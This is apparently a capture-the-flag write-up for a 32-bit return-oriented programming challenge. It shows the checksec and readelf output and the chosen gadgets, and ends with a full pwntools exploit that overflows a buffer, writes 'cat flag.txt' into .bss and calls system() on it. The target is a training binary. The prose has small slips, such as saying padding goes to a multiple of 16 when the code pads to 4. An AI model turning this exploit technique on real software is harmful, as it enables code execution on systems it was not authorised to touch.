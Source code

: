 The goal of the challenge is to master the writing in memory with ropchain. 
In this case we want to write the string '*cat flag.txt*' somewhere in memory. Then perform a system with this string as argument.
To do that we some ingredients:
- writeable memory area
- gadgets to write in memory
- gadgets to execute system()

As always running checksec we have:
```shell
[marco@marco-pc Downloads]$ checksec --file="write432"
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     No	0		3	write432
```
With readelf we can explore memory sections marked as readable and their dimensions:
```shell
[marco@marco-pc Downloads]$ readelf -S write432
There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000d0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ac 0002ac 000081 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804832e 00032e 00001a 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048348 000348 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048368 000368 000020 08   A  5   0  4
  [10] .rel.plt          REL             08048388 000388 000038 08  AI  5  24  4
  [11] .init             PROGBITS        080483c0 0003c0 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483f0 0003f0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048470 000470 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048480 000480 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486e4 0006e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804875c 00075c 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048798 000798 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001030 000034 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 001861 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 001064 000510 10     30  50  4
  [30] .strtab           STRTAB          00000000 001574 0002ed 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

The bss section seems to be perfect!
Now we need some gadgets to write in memory.
Something like mov `DWORD PTR [reg], reg; ret`.
In this case the program give us usefulGadget:
```gdb
[marco@marco-pc Downloads]$ gdb-pwndbg write432
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```

Usually we need to find ourself.
Another gadget we need is a pop instruction for load values into registers (in this case: bss address in edi, string ebp):
```shell
[marco@marco-pc Downloads]$ cat gadgets | grep pop
0x080486ef : adc ebx, dword ptr [ecx] ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080483dc : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080485ed : add byte ptr [ebx - 0x723603b3], cl ; popal ; cld ; ret
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483de : add esp, 8 ; pop ebx ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483df : les ecx, ptr [eax] ; pop ebx ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486db : pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483e1 : pop ebx ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
0x080485f3 : popal ; cld ; ret
```
'*pop edi; pop ebp*' fit perfectly for our purpose.
To execute the write i wrote a dedicated function, which basically pad the string with null bytes until the length is a multiple of 16.
Then cut the string in group by 4. And finally it writes 4 bytes at a time in memory adding 4 to the address for each write:
```python
def write_string_bss(mov_gadget, pop_gadget, bss_address, string):
    while len(string) % 4 != 0:
        string += "\x00"

    splitted_string = [string[i:i + 4] for i in range(0, len(string), 4)]
    payload = "".encode()
    for i in range(len(splitted_string)):
        payload += p32(pop_gadget)
        payload += p32(bss_address + (i * 4))
        payload += splitted_string[i].encode()
        payload += p32(mov_gadget)
    return payload
```

It's almost done. We just need a system to execute the syscall like in split challenge:
```
[marco@marco-pc Downloads]$ gdb-pwndbg write432 
Reading symbols from write432...
(No debugging symbols found in write432)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> p system
$1 = {<text variable, no debug info>} 0x8048430 <system@plt>
```

Final exploit:
```python
from pwn import *

string = "cat flag.txt"
system = 0x8048430
usefulGadgets =  0x08048670 # mov DWORD PTR [edi], ebp
pop_gadget = 0x080486da; #pop edi ; pop ebp ; ret
bss_address = 0x0804a040

def write_string_bss(mov_gadget, pop_gadget, bss_address, string):
    while len(string) % 4 != 0:
        string += "\x00"

    splitted_string = [string[i:i + 4] for i in range(0, len(string), 4)]
    payload = "".encode()
    for i in range(len(splitted_string)):
        payload += p32(pop_gadget)
        payload += p32(bss_address + (i * 4))
        payload += splitted_string[i].encode()
        payload += p32(mov_gadget)
    return payload


exploit = ("A"*44).encode()
exploit += write_string_bss(usefulGadgets, pop_gadget, bss_address, string)
exploit += p32(system)
exploit += ("JUNK").encode()
exploit += p32(bss_address)

p = process('./write432')
p.recvuntil('>')
p.sendline(exploit)
p.interactive()
print(p.recvall().decode())
```
